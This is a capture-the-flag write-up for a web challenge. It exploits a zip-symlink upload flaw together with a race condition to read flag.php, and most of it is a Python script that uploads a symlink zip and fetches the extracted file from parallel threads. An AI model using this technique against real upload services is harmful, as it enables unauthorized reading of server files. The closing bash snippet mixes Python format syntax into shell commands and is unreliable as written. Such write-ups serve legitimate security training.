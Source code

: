 It's a combination zip symlink vulnerability and race condition.

To solve challenge you should try to create a simlink to flag.php file,
Upload this file to server. But in the same time try to read the file.

To make the race we use following code to write the file on the server, but in the mean time try to fetch the file.

```python
import time
import requests
import threading
import string
from random import randint

base_url = 'http://web.ctf.ir:4444/'
login_url = base_url + 'login.php'
register_url = base_url + 'register.php'
upload_url = base_url + 'upload.php'


username = 'abcde'
password = 'test'
data = {'username': username, 'password': password}
s = requests.session()
r = s.post(register_url, data=data)
r = s.post(login_url, data=data)
session_id = s.cookies.get('PHPSESSID')
if not session_id:
    print('error when getting new session.')
    exit()

file_url = base_url + 'uploads/{}/out'.format(session_id)

# Creating symlink file
import sys, os
file_to_search = sys.argv[1]
# os.popen('rm out')
# os.popen('rm out.zip')
# os.popen('ln -s {} out'.format(file_to_search))
# os.popen('zip --symlinks -r out.zip out')

for i in range(1):

    def upload_file():
        files = {'upload_file': open('out.zip','rb')}
        r = s.post(upload_url, files=files, data={})

    def get_file():        
        r = s.get(file_url)
        text = r.text
        if r.status_code == 200:
            print(text)

    threading.Thread(target=upload_file).start()
    threading.Thread(target=get_file).start()
    threading.Thread(target=get_file).start()
    threading.Thread(target=get_file).start()
    threading.Thread(target=get_file).start()
    threading.Thread(target=get_file).start()
    threading.Thread(target=get_file).start()


```

To create symlink files you can use below bash scripts:
```bash
$ ln -s {} out'.format(file_to_search)
$ zip --symlinks -r out.zip out
```
which will create a `out.zip` file and you can upload this file to server and try to read it via race bug.

If we are lucky after some tries we can get the file contents. And simply get the `flag.php` file contents.